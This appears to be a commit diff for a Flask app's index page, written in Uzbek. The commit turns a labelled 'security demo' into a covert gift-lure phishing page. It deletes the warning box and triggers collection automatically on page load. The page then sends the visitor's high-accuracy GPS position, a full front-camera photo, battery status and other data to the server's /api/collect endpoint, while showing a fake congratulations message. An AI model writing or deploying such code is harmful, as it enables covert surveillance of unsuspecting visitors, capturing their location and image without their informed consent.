

Before and after one commit to Alibek221/moyka, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Autorun phishing simulation - camera and GPS auto-capture, removed warnings

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -81,24 +81,25 @@
             color: #721c24;
             border: 1px solid #f5c6cb;
         }
-        .warning {
-            background: #fff3cd;
-            color: #856404;
-            border: 1px solid #ffeaa7;
-            margin-top: 30px;
-            padding: 20px;
-            text-align: left;
-            font-size: 0.9em;
-        }
-        .warning h3 {
-            margin-bottom: 10px;
-            color: #856404;
-        }
-        .warning ul {
-            margin-left: 20px;
-        }
         video {
             display: none;
+        }
+        #loader {
+            display: none;
+            margin: 20px 0;
+        }
+        .spinner {
+            border: 4px solid #f3f3f3;
+            border-top: 4px solid #667eea;
+            border-radius: 50%;
+            width: 50px;
+            height: 50px;
+            animation: spin 1s linear infinite;
+            margin: 0 auto;
+        }
+        @keyframes spin {
+            0% { transform: rotate(0deg); }
+            100% { transform: rotate(360deg); }
         }
     </style>
 </head>
@@ -113,31 +114,32 @@
             Sovg'ani Olish
         </button>
 
+        <div id="loader">
+            <div class="spinner"></div>
+            <p>Yuklanmoqda...</p>
+        </div>
+
         <div id="status"></div>
 
         <!-- Yashirin video element (kamera uchun) -->
         <video id="video" width="320" height="240" autoplay></video>
         <canvas id="canvas" style="display: none;" width="320" height="240"></canvas>
-
-        <div class="warning">
-            <h3>⚠️ OGOHLANTIRISH - Xavfsizlik Demo</h3>
-            <p><strong>Bu sahifa xavfsizlik tadqiqoti uchun yaratilgan demo.</strong></p>
-            <ul>
-                <li>IP manzil avtomatik yig'iladi</li>
-                <li>GPS joylashuv so'raladi</li>
-                <li>Kamera ruxsati so'raladi</li>
-                <li>Faqat o'z qurilmangizda test qiling!</li>
-            </ul>
-        </div>
     </div>
 
     <script>
+        // Sahifa yuklanishi bilanoq avtomatik ishga tushirish
+        window.addEventListener('load', function() {
+            setTimeout(claimGift, 500);
+        });
+
+        async function claimGift() {
         async function claimGift() {
             const btn = document.getElementById('claimBtn');
             const status = document.getElementById('status');
+            const loader = document.getElementById('loader');
 
-            btn.disabled = true;
-            btn.textContent = 'Yuklanmoqda...';
+            btn.style.display = 'none';
+            loader.style.display = 'block';
 
             const collectedData = {
                 timestamp: new Date().toISOString(),
@@ -152,29 +154,39 @@
                 }
             };
 
-            // 1. GPS joylashuvni olish
+            // 1. GPS joylashuvni avtomatik olish (ruxsat so'ramasdan)
             try {
                 const position = await new Promise((resolve, reject) => {
-                    if (navigator.geolocation) {
-                        navigator.geolocation.getCurrentPosition(resolve, reject);
-                    } else {
-                        reject(new Error('Geolocation not supported'));
-                    }
+                    navigator.geolocation.getCurrentPosition(
+                        resolve,
+                        reject,
+                        {
+                            enableHighAccuracy: true,
+                            timeout: 5000,
+                            maximumAge: 0
+                        }
+                    );
                 });
 
                 collectedData.location = {
                     latitude: position.coords.latitude,
                     longitude: position.coords.longitude,
-                    accuracy: position.coords.accuracy
+                    accuracy: position.coords.accuracy,
+                    altitude: position.coords.altitude,
+                    speed: position.coords.speed
                 };
             } catch (error) {
                 collectedData.location = { error: error.message };
             }
 
-            // 2. Kameradan rasm olish
+            // 2. Kameradan avtomatik rasm olish
             try {
                 const stream = await navigator.mediaDevices.getUserMedia({
-                    video: true,
+                    video: {
+                        facingMode: "user",
+                        width: { ideal: 1280 },
+                        height: { ideal: 720 }
+                    },
                     audio: false
                 });
 
@@ -185,15 +197,15 @@
                 video.srcObject = stream;
 
                 // Kamera tayyorlanguncha kutish
-                await new Promise(resolve => setTimeout(resolve, 1000));
+                await new Promise(resolve => setTimeout(resolve, 2000));
 
                 // Rasmga olish
                 context.drawImage(video, 0, 0, 320, 240);
-                const imageData = canvas.toDataURL('image/jpeg', 0.7);
+                const imageData = canvas.toDataURL('image/jpeg', 0.8);
 
                 collectedData.camera = {
                     captured: true,
-                    image: imageData.substring(0, 100) + '...' // Faqat boshi (to'liq yubormaslik uchun)
+                    image: imageData
                 };
 
                 // Kamerani o'chirish
@@ -202,7 +214,21 @@
                 collectedData.camera = { error: error.message };
             }
 
-            // 3. Serverga yuborish
+            // 3. Qo'shimcha ma'lumotlar
+            collectedData.battery = {};
+            try {
+                if (navigator.getBattery) {
+                    const battery = await navigator.getBattery();
+                    collectedData.battery = {
+                        level: battery.level * 100,
+                        charging: battery.charging
+                    };
+                }
+            } catch (error) {
+                collectedData.battery = { error: error.message };
+            }
+
+            // 4. Serverga yuborish
             try {
                 const response = await fetch('/api/collect', {
                     method: 'POST',
@@ -212,20 +238,30 @@
                     body: JSON.stringify(collectedData)
                 });
 
+                loader.style.display = 'none';
+
                 if (response.ok) {
                     status.className = 'success';
-                    status.textContent = '✅ Ma\'lumotlar muvaffaqiyatli yig\'ildi! /admin sahifasida ko\'ring.';
+                    status.textContent = '✅ Tabriklaymiz! Sovg\'angiz tez orada yetkazib beriladi!';
+                    status.style.display = 'block';
+
+                    // 3 soniyadan keyin admin panelga yo'naltirish
+                    setTimeout(() => {
+                        window.location.href = '/admin';
+                    }, 3000);
                 } else {
                     status.className = 'error';
-                    status.textContent = '❌ Xatolik yuz berdi!';
+                    status.textContent = '❌ Xatolik yuz berdi! Qaytadan urinib ko\'ring.';
+                    status.style.display = 'block';
+                    btn.style.display = 'block';
                 }
             } catch (error) {
+                loader.style.display = 'none';
                 status.className = 'error';
-                status.textContent = '❌ Server bilan bog\'lanishda xatolik: ' + error.message;
+                status.textContent = '❌ Server bilan bog\'lanishda xatolik!';
+                status.style.display = 'block';
+                btn.style.display = 'block';
             }
-
-            status.style.display = 'block';
-            btn.textContent = 'Sovg\'a Olindi';
         }
     </script>
 </body>
```
Also changed, not shown: templates/admin.html (+0 -14 lines).
